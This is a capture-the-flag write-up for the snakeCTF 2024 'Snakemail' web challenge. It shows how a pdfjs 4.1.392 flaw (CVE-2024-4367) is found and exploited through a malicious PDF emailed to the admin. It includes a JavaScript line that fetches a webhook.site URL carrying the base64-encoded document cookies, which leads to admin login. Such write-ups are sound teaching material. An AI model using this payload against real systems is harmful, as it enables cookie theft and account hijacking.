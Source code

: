 # Snakemail [_snakeCTF 2024 Finals_]

**Category**: Web
**Author**: macedonga

## Description

Apparently, the admin has a secret hidden in his emails. Can you find it?

(admin email is `admin@mail.snakectf.org`)

## Solution

### Step 1: Analysing the frontend

The initial step involves inspecting how the frontend works. Users can attach files to an email. The allowed file types are: PNG, JPEG, GIF, WEBP, PDF, DOC, DOCX, XLS, XLSX. When a PDF file is viewed in an email, the page that renders the PDF preview can be identified as `/pdf?email=...&id=...`.

By examining the Webpack chunk files, the library responsible for rendering the PDF files, `pdfjs`, is identified. Investigating the library's source code reveals a variable, `apiVersion`, which stores the version number of the library. Searching for this variable in the chunk files uncovers the library version, `4.1.392`.

### Step 2: Exploiting the PDF viewer

Searching online for the library's version number leads to the discovery of a [security advisory](https://nvd.nist.gov/vuln/detail/CVE-2024-4367) describing a vulnerability in the library. This vulnerability enables an attacker to execute arbitrary JavaScript code within the PDF viewer's context. A [proof of concept](https://github.com/LOURC0D3/CVE-2024-4367-PoC) demonstrates how to exploit this issue.

A malicious PDF file can be crafted to exploit this vulnerability and sent to the admin's email address to steal the cookies. An example payload is provided below:

```javascript
fetch('https://webhook.site/your-uuid?cookie=' + btoa(document.cookie));
```

When the admin opens the PDF, the cookies are exfiltrated to the specified webhook.

### Step 3: Logging in as the admin

After obtaining the admin's cookies, they can be used to log in as the admin. The secret hidden in the admin’s emails can then be accessed.